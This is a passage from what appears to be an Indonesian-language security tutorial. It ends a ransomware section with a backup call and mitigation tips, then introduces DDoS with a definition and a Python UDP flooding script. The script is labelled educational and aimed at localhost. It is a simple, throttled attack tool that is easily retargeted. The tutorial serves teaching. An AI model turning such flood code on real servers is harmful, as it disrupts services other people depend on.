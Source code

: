 ```python
protector = RansomwareProtector()
protector.create_backup()
```

### e. Mitigasi
- Backup data secara teratur (3-2-1 rule)
- Update sistem operasi dan aplikasi
- Jangan klik lampiran mencurigakan
- Gunakan security software

---

## 5. DDoS (Distributed Denial of Service)

### a. Definisi
- Serangan membanjiri server dengan traffic berlebih agar down

### b. Cara Kerja
- Ribuan request palsu ke server dalam waktu singkat
- Biasanya menggunakan botnet

### c. Contoh Kode (Python Flooding - EDUKASI)
```python
import socket
import time
import threading

# PERINGATAN: Hanya untuk edukasi dan testing di lingkungan terkontrol
print("SIMULASI DOS - HANYA UNTUK EDUKASI")
print("Jangan gunakan untuk menyerang sistem lain!")

target = "127.0.0.1"  # Hanya localhost
port = 8080
duration = 10  # Durasi simulasi (detik)

def dos_attack():
    """Simulasi serangan DoS sederhana"""
    start_time = time.time()
    packet_count = 0
    
    try:
        while time.time() - start_time < duration:
            # Buat socket baru untuk setiap packet (tidak efisien, tapi untuk demo)
            with socket.socket(socket.AF_INET, socket.SOCK_DGRAM) as sock:
                sock.sendto(b"X", (target, port))
                packet_count += 1
            
            time.sleep(0.01)  # Delay kecil untuk tidak membebani sistem
            
    except Exception as e:
        print(f"Error: {e}")
    
    print(f"{packet_count} paket dikirim ke {target}:{port}")

# Jalankan simulasi
dos_attack()
```
